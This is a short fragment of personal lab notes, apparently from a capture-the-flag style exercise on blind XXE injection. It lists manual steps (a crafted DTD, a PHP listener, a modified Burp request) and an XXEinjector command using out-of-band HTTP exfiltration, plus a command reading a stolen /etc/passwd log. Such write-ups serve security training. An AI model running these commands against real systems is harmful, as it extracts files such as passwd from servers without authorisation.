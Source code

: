 #### Open the file stored in the `Logs` folder
```Shell
cat Logs/10.129.201.94/etc/passwd.log 
```

***LAB Notes:*

Manual
1) Made `xxe.dtd` and `index.php` files in Kali
2) Ran PHP web server
3) Modified intercepted Burp Request and sent it to the web application
![[blind request.png]]
4) Intercepted flag in PHP web server
![[blind flag.png]]

Automated
1) Created file for `XXEinjector` to read
![[autoblind.png]]
2) Executed `XXEinjector`
```Shell
ruby XXEinjector.rb --host=10.10.16.15 --httpport=8000 --file=autoblind.req --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php --oob=http --phpfilter
```
![[xxeinjector.png]]
3) Opened file in `/Logs/10.129.67.225` folder
![[xxeinjectorflag.png]]
